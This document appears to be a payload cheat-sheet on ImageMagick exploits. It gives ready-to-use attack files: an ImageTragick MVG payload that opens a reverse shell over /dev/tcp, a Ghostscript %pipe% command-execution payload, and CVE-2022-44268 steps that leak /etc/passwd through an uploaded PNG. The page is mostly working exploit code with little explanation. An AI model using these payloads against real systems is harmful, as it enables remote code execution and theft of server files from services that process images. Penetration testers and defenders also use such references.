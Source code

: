 # ImageMagick Exploits

## ImageTragik Exploit v1

Simple reverse shell

```powershell
push graphic-context
encoding "UTF-8"
viewbox 0 0 1 1
affine 1 0 0 1 0 0
push graphic-context
image Over 0,0 1,1 '|/bin/sh -i > /dev/tcp/ip/80 0<&1 2>&1'
pop graphic-context
pop graphic-context
```

## ImageTragik Exploit v2

Simple `id` payload

```powershell
%!PS
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%id) currentdevice putdeviceprops
```

then use `convert shellexec.jpeg whatever.gif`


## CVE-2022-44268

Information Disclosure: embedded the content of an arbitrary remote file

* Generate the payload
    ```ps1
    apt-get install pngcrush imagemagick exiftool exiv2 -y
    pngcrush -text a "profile" "/etc/passwd" exploit.png
    ```
* Trigger the exploit by uploading the file. The backend might use something like `convert pngout.png pngconverted.png`
* Download the converted picture and inspect its content with: `identify -verbose pngconverted.png`
* Convert the exfiltrated data: `python3 -c 'print(bytes.fromhex("HEX_FROM_FILE").decode("utf-8"))'` 


## Thanks to

* [openwall.com/lists/oss-security/2018/08/21/2 by Tavis Ormandy](http://openwall.com/lists/oss-security/2018/08/21/2)